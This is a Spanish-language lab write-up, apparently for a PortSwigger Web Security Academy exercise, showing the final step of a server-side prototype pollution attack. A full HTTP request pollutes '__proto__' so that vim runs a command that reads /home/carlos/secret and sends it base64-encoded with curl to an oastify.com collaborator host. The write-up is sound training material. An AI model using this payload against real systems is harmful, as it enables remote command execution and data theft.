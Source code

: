 Y en el collaborator se obtiene el siguiente trafico:

<figure><img src="../.gitbook/assets/image (3) (1).png" alt=""><figcaption></figcaption></figure>

Al decodificar el base64 encontramos esto:

```
node_apps
secret
```

Por lo anterior, finalizamos enviando la siguiente carga:

```bash
POST /my-account/change-address HTTP/2
Host: 0a7e008b0499e6c481688ab4000900af.web-security-academy.net
Cookie: session=4tH7NKRjQmuej0xm7k7XQpweZtk40bS7
Content-Length: 325
Sec-Ch-Ua: "Chromium";v="128", "Not;A=Brand";v="24", "Google Chrome";v="128"
Content-Type: application/json;charset=UTF-8
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.0.0 Safari/537.36
Sec-Ch-Ua-Platform: "Windows"
Accept: */*
Origin: https://0a7e008b0499e6c481688ab4000900af.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0a7e008b0499e6c481688ab4000900af.web-security-academy.net/my-account?id=wiener
Accept-Encoding: gzip, deflate, br
Accept-Language: es-ES,es;q=0.9
Priority: u=1, i

{"address_line_1":"Wiener HQ","address_line_2":"One Wiener Way","city":"Wienerville","postcode":"BU1 1RP","country":"UK","sessionId":"4tH7NKRjQmuej0xm7k7XQpweZtk40bS7","__proto__": {
    "shell":"vim",
    "input":":! cat /home/carlos/secret | base64 | curl -d @- https://79ehevoergt9416xsqvym443suymmfa4.oastify.com\n"
}}
```
